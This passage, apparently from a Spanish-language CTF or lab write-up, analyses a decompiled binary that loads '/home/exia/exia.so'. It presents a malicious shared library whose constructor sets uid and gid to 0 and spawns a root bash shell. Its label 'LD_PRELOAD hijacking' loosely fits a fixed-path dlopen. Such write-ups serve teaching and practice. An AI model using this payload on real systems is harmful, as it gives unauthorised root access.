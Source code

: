 ![GHidra Zeug](/assets/img/imgs/zeug/ghidra_zeug.png)

```cpp
bool main(void)

{
  long lVar1;

  lVar1 = dlopen("/home/exia/exia.so", 2);
  if (lVar1 == 0) {
    fwrite("Error opening file\n", 1, 0x13, stderr);
  }
  return lVar1 == 0;
}
```

Vemos que está tratando de cargar una librería compartida (**`Shared Library`**) llamada **`exia.so`** en el directorio **`/home/exia/`{: .filepath }**. Este programa se puede explotar de forma muy fácil utilizando la técnica **`LD_PRELOAD Hijacking`**.

Esta técnica nos permite ejecutar código malicioso gracias a la inyección de código en una biblioteca aprovechando la variable de entorno **`LD_PRELOAD`**.

**`LD_PRELOAD`** es una variable de entorno que dicta qué bibliotecas compartidas se deben ejecutar antes que cualquier biblioteca cuando se ejecuta el programa.

Dicho esto, explotar esta vulnerabilidad es bastante fácil, veamos esta biblioteca maliciosa:

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void inject()__attribute__((constructor));

void inject() {
	unsetenv("LD_PRELOAD");
	setuid(0);
	setgid(0);
	system("/bin/bash");
}
```
